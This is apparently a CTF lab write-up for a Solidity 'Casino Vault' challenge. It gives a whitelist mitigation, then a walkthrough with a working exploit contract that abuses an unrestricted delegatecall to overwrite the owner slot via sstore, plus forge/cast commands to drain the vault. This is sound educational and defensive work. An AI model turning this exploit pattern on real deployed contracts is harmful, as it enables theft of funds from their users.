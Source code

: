 ## Mitigation

In the heist you just did, you discovered a vulnerability of *delegatecall* because we can put the *address* of our own contract and put some *raw data* to be executed there. We can then just create an exploit contract that changes the state of the value in *SLOT 1*, where the *owner* resides, and takes over the contract. This can be mitigated by adding a simple whitelist to the contract, such as this. &nbsp;  
&nbsp;  
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.26;

contract CasinoVault {
    address public owner;
    mapping(address => bool) public whitelist; // Whitelist for authorized logic contracts

    modifier onlyOwner() {
        require(msg.sender == owner, "Not the owner");
        _;
    }

    constructor() payable {
        owner = msg.sender;
    }

    // Add an address to the whitelist (only the owner can do this)
    function addToWhitelist(address _logicContract) external onlyOwner {
        whitelist[_logicContract] = true;
    }

    // Remove an address from the whitelist
    function removeFromWhitelist(address _logicContract) external onlyOwner {
        whitelist[_logicContract] = false;
    }

    // Verifies identity with only whitelisted logic contracts
    function verifyIdentity(address _identity, bytes memory data) public {
        require(whitelist[_identity], "Unauthorized logic contract"); // Whitelist check

        (bool success, ) = _identity.delegatecall(data);
        require(success, "Verifying failed");
    }

    // Withdraw function restricted to the owner
    function withdraw() public onlyOwner {
        (bool transferred, ) = payable(owner).call{value: address(this).balance}("");
        require(transferred, "Withdrawal failed!");
    }

    receive() external payable {}
}
```
&nbsp;  
With the mitigated contract, now we check the *owner* by a modifier called *onlyOwner()* and make sure that only the owner can register an address on the *whitelist*. Plus, we add a check on *verifyIdentity()* to check whether the *address* input is whitelisted.

## Walkthrough

The vault of this casino can only be opened by the owner. What we are trying to do here is take everything from the owner, but how? &nbsp;    
&nbsp;   
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.26;

import "./CasinoVault.sol";

contract Setup{
    CasinoVault public CS;

    constructor() payable{
        CS = new CasinoVault{value: 50 ether}();
    }

    function isSolved() public view returns(bool){
        return address(CS).balance == 0;
    }

}
```
&nbsp;  
It seems the heist was successful when we managed to empty the vault. A lot of work to be done here, it seems, huh? Let's look at what we're dealing with *CasinoVault Contract* &nbsp;  
&nbsp;  
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.26;

contract CasinoVault {
    address public gameLogic;
    address public owner;

    constructor() payable {
        owner = msg.sender;
    }

    function verifyIdentity(address _identity, bytes memory data) public {
        (bool success, ) = _identity.delegatecall(data);
        require(success, "Verifying failed");
    }

    function withdraw() public {
        require(msg.sender == owner, "Not the owner");
        (bool transferred, ) = payable(owner).call{value: address(this).balance}("");
        require(transferred, "Withdrawal Failed!");
    }

    receive() external payable {}
    
}
```
&nbsp;  
We can see here that we can verifyIdentify by providing an *address* and a *bytes memory data*, they use delegatecall there, delegate calls are usually used like a "borrowed function". You execute the function in order to modify the state of the caller. In this case, if we parse and address and execute the data there, it will execute the data and modify the state of the *Casino Vault* itself. Unlike Silent-Dealer where there is a function to change owner here the option doesn't present. So how can we become the owner and drain the vault? &nbsp;  
&nbsp;  
In EVM Assembly, there is an operation called *sstore(location, value)*. We can use this to overwrite the storage memory, let's see where the *owner* resides, &nbsp;  
&nbsp;  

```solidity
    address public gameLogic; // SLOT 0
    address public owner; // SLOT 1
```
&nbsp;  
Based on that information, we can see that the owner is stored at SLOT 1, and the length since it's an address must be 20 bytes long. Now that we have the 2 options, we can either put the owner to become ourselves (EOA) or we can write the Exploit Contract Address; this can be done by either providing *origin()* (EOA) or *caller()* (msg.sender, in this case is the Exploit Contract), as the parameter. So if we want to overwrite the storage, we can use &nbsp;  
&nbsp;  

```solidity
sstore(1, origin()) // for tx.origin / EOA
// or
sstore(1, caller()) // for msg.sender 
```
&nbsp;  
In this exploitation, I choose to overwrite it using my EOA, so we are going to go with this exploit to drain the vault. &nbsp;  
&nbsp;  
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.26;

import "./Setup.sol";
import "./CasinoVault.sol";

contract Exploit {
    Setup public setup;
    CasinoVault public cs;

    constructor(address payable _setup) {
        setup = Setup(_setup);
        cs = CasinoVault(setup.CS());
    }

    function exploit() public {
        cs.verifyIdentity(address(this), abi.encodeWithSignature("takeOver()"));
    }

    function takeOver() public {
        assembly {
            sstore(1, origin()) 
        }
    }

}
```
&nbsp;  
Let's deploy it, and at last we're going to withdraw all the money stored there. &nbsp;  
&nbsp;  
```bash
// Deploying the Exploit Contract
forge create src/casino-vault/$EXPLOIT_FILE:$EXPLOIT_NAME -r $RPC_URL --private-key $PK --constructor-args $SETUP_ADDR

// Running the Exploit
cast send -r $RPC_URL --private-key $PK $EXPLOIT_ADDR "exploit()"

// Withdrawing Everything from the Vault
cast send -r $RPC_URL --private-key $PK $VAULT_ADDR "withdraw()"
```
&nbsp;  
By running the command above and deploying the Exploit contract, you should've solved the lab!